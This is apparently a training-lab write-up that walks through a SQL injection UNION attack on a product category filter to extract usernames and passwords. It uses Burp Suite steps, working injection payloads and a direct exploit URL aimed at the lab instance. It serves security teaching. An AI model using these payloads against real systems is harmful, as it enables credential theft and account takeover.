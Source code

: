 **SQL injection UNION attack, retrieving multiple values in a single column**

 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

Solution:-

         
* Navigate to the portal & turn on intercept in BurpSuite
* Now, go to any category & check it in Burpsuite's Proxy tab
* Then, Send this to repeater & turn off the intercept
* Now, we need to go step by step to check version of database
     1. Find no of columns
     2. Find datatype of the columns
     3. Version of the database
     4. Output the user credentials for admin in single line in database
    
* So, in order to find no of columns, add ```' ORDER BY 1--``` & increase it till we get Internal Server Error  
* Now, we know no of columns as 2, Add ```'UNION SELECT NULL, 'b'--``` to see it accepts string type or not. It does, in our case  
* Now, as we don't know the database, we need to check both Microsoft & PostGreSQL. For that, check with ```' UNION SELECT @@version, NULL--``` & ```' UNION SELECT version(), NULL--```, out of which later is giving 200 OK response.
* Now, we need to output out list of table names in DB, for that add ```UNION SELECT table_name, NULL from information_schema.tables--```
* & you'll now have table name - users, we now have column names username & password.
* Now, we need user credentials. For that, write ```'union+select+null,username+||+'`'+||+password+from+users--```
* Now, you'll get output with **username** & **password** for admin seperated with ~.  


![solution_lab10.png](../images/img_12.png)

[Direct Solution Link](https://0a3800cf04c4709b813a204d00dc0038.web-security-academy.net/filter?category=Lifestyle%27union+select+null,username+||+%27`%27+||+password+from+users--)

